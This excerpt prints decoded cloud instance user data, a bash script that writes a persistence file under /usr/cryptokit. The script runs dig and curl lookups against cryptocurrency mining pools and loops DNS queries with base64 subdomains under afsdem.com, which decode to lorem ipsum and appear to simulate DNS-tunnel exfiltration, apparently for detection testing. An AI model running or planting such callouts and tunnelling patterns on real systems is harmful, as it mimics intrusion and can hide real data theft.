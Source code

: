 * The User Data for all instances is identical
```
cat i-021345abcdef678b_UserData.b64 | base64 --decode

Content-Type: multipart/mixed; boundary="//"
MIME-Version: 1.0

--//
Content-Type: text/cloud-config; charset="us-ascii"
MIME-Version: 1.0
Content-Transfer-Encoding: 7bit
Content-Disposition: attachment; filename="cloud-config.txt"

#cloud-config
cloud_final_modules:
- [scripts-user, always]

--//
Content-Type: text/x-shellscript; charset="us-ascii"
MIME-Version: 1.0
Content-Transfer-Encoding: 7bit
Content-Disposition: attachment; filename="userdata.txt"

#!/bin/bash
mkdir -p /usr/cryptokit
touch /usr/cryptokit/persist.sh
chmod 750 /usr/cryptokit/persist.sh
echo "#!/bin/bash" >> /usr/cryptokit/persist.sh
echo "dig donate.v2.xmrig.com" >> /usr/cryptokit/persist.sh
echo "dig systemten.org" >> /usr/cryptokit/persist.sh
echo "dig xmr.pool.minergate.comac" >> /usr/cryptokit/persist.sh
echo "dig pool.minergate.com" >> /usr/cryptokit/persist.sh
echo "dig dockerupdate.anondns.net" >> /usr/cryptokit/persist.sh
echo "dig rspca-northamptonshire.org.uk" >> /usr/cryptokit/persist.sh
echo "dig xmrpool.eu" >> /usr/cryptokit/persist.sh
echo "dig cryptofollow.com" >> /usr/cryptokit/persist.sh
echo "dig xmr-usa.dwarfpool.com" >> /usr/cryptokit/persist.sh
echo "dig xmr-eu.dwarfpool.com" >> /usr/cryptokit/persist.sh
echo "dig xmr-eu1.nanopool.org" >> /usr/cryptokit/persist.sh
echo "curl -s http://pool.minergate.com/dkjdjkjdlsajdkljalsskajdksakjdksajkllalkdjsalkjdsalkjdlkasj  > /dev/null &" >> /usr/cryptokit/persist.sh
echo "curl -s http://xmr.pool.minergate.com/dhdhjkhdjkhdjkhajkhdjskahhjkhjkahdsjkakjasdhkjahdjk  > /dev/null &" >> /usr/cryptokit/persist.sh
echo "for i in {1..10};" >> /usr/cryptokit/persist.sh
echo "do" >> /usr/cryptokit/persist.sh
echo "  dig CgpMb3JlbSBpcHN1bSBkb2xvciBzaXQgYW1ldC.afsdem.com;" >> /usr/cryptokit/persist.sh
echo "  dig wgY29uc2VjdGV0dXIgYWRpcGlzY2luZyBlbGl0.afsdem.com;" >> /usr/cryptokit/persist.sh
echo "  dig LiBWZXN0aWJ1bHVtIGFjIHJpc3VzIGRvbG9yLi.afsdem.com;" >> /usr/cryptokit/persist.sh
echo "  dig BJbiBldSBpbXBlcmRpZXQgbWksIGlkIHNjZWxl.afsdem.com;" >> /usr/cryptokit/persist.sh
echo "  dig cmlzcXVlIG9yY2kuIE51bGxhbSB1dCBsaWJlcm.afsdem.com;" >> /usr/cryptokit/persist.sh
echo "  dig 8gcHVydXMuIFBlbGxlbnRlc3F1ZSBhdCBmcmlu.afsdem.com;" >> /usr/cryptokit/persist.sh
echo "  dig Z2lsbGEgbWV0dXMsIGFjIHVsdHJpY2VzIGVyYX.afsdem.com;" >> /usr/cryptokit/persist.sh
echo "  dig QuIEZ1c2NlIGN1cnN1cyBtb2xsaXMgcmlzdXMg.afsdem.com;" >> /usr/cryptokit/persist.sh
echo "  dig dXQgdWx0cmljaWVzLiBOYW0gbWFzc2EganVzdG.afsdem.com;" >> /usr/cryptokit/persist.sh
echo "  dig 8sIHVsdHJpY2llcyBhdWN0b3IgbWkgdXQsIGRp.afsdem.com;" >> /usr/cryptokit/persist.sh
echo "  dig Y3R1bSBsb2JvcnRpcyBudWxsYS4gTnVsbGEgc2.afsdem.com;" >> /usr/cryptokit/persist.sh
echo "  dig l0IGFtZXQgZmVsaXMgbm9uIGlwc3VtIHZlc3Rp.afsdem.com;" >> /usr/cryptokit/persist.sh
echo "  dig YnVsdW0gcmhvbmN1cy4gTG9yZW0gaXBzdW0gZG.afsdem.com;" >> /usr/cryptokit/persist.sh
echo "  dig 9sb3Igc2l0IGFtZXQsIGNvbnNlY3RldHVyIGFk.afsdem.com;" >> /usr/cryptokit/persist.sh
echo "  dig aXBpc2NpbmcgZWxpdC4gSW4gZmF1Y2lidXMgaW.afsdem.com;" >> /usr/cryptokit/persist.sh
echo "  dig QgZWxpdCBhdCBtYXhpbXVzLiBBbGlxdWFtIGRh.afsdem.com;" >> /usr/cryptokit/persist.sh
echo "  dig cGlidXMgdXQgbWF1cmlzIG5lYyBmYXVjaWJ1cy.afsdem.com;" >> /usr/cryptokit/persist.sh
echo "  dig 4gUHJvaW4gYXVjdG9yIGxpYmVybyBuZWMgYXVn.afsdem.com;" >> /usr/cryptokit/persist.sh
echo "  dig dWUgc2FnaXR0aXMgY29uZGltZW50dW0uIFZlc3.afsdem.com;" >> /usr/cryptokit/persist.sh
```